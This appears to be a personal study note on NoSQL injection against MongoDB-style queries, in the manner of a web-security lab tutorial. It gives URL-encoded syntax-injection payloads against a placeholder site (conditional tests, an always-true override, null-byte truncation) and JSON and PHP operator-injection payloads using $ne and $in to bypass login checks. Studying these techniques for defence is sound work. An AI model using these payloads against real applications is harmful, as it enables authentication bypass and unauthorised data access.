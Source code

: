 # Syntax injection
This occurs when you can break the #nosql query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
### Test
#### Determining which chars are processed
should break syntax and change response:
```
this.category == '''
```
should not affect
```
this.category == '\''
```
##### Confirming conditional behavior
Send two requests `' && 0 && 'x` and  `' && 1 && 'x` as follows: 

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
 If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.
##### Overriding existing conditions
`'||'1'=='1`

https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
results in mongodb query:
```
this.category == 'fizzy'||'1'=='1'
```

##### Null character
mongodb ignores all after it. like comment in sql injection.
```
https://insecure-website.com/product/lookup?category=fizzy'%00
```
query:
```
this.category == 'fizzy'\u0000' && this.released == 1
```

# Operator injection
Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.
* $where
* $ne
* $in
* $regex
#### Examples
Query: `{"username":"wiener","password":"peter"}`
Injections: 
* `{"username":{"$ne":"invalid"},"password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}` 
* `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`



Example of `www-form-urlencoded` injection (PHP): #php
`user[$ne]=test&pass[$ne]=asdf&remember=`

![[Pasted image 20250120063827.png]]
